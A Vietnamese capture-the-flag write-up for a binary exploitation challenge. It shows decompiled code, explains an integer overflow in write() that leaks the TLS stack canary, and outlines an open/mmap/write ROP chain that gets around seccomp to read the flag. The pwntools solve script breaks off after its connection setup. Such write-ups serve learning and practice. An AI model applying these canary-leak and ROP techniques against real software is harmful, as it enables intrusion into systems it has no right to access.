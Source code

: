 ```
    __isoc99_scanf("%d", &sizes[v1]);
    if ( sizes[v1] <= 4096 )
    {
      read(0, (void *)chunk[v1], sizes[v1]);
      return 1LL;
    }
    else
    {
      puts("too much");
      return 0LL;
    }
  }
  else
  {
    puts("invalid idx");
    return 0LL;
  }
}
```

Lỗi thứ 2 ở hàm write(), ta thấy lỗi integer overflow, nên chúng ta có thể đọc nhiều hơn 0x1000 bytes. Điều này cho phép ta có thể đọc được cả canary được lưu giữ trong 1 offset cố định trên TLS (vì hàm write in ra cả nullbyte). 
Sau đó, chúng ta dùng để dùng rop chain open->read->write để ánh xạ file flag vào bộ nhớ chương trình và xuất nó ra thiết bị xuất chuẩn.

OOPs, chúng ta lại không có read() để đọc file vào bộ nhớ (vì chương trình đã dùng seccomp để chặn các hàm đó lại). May mắn thay, em tìm thấy bài viết này 
`https://stackoverflow.com/questions/74743307/mmap-open-and-read-from-file`. Dùng mmap() để read(). Ok, vậy mọi thứ đã rõ ràng rồi, tiến hành exploit thôi:

> Solve scripts:

```py
#!/usr/bin/env python3

from pwn import *
from ctypes import *
import time
import sys

local = 0
debug = 0

context.arch = 'amd64'
# context.aslr = False
# context.log_level = 'debug'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# context.timeout = 2

def riconn():
	global local
	global debug

	for arg in sys.argv[1:]:
		if arg in ('-l', '--local'):
			local = 1
		if arg in ('-d', '--debug'):
			debug = 1

	if local:
		io = process('./chall_patched')
		if debug:
			gdb.attach(s, gdbscript='''
            b* 0x0000000000401930
```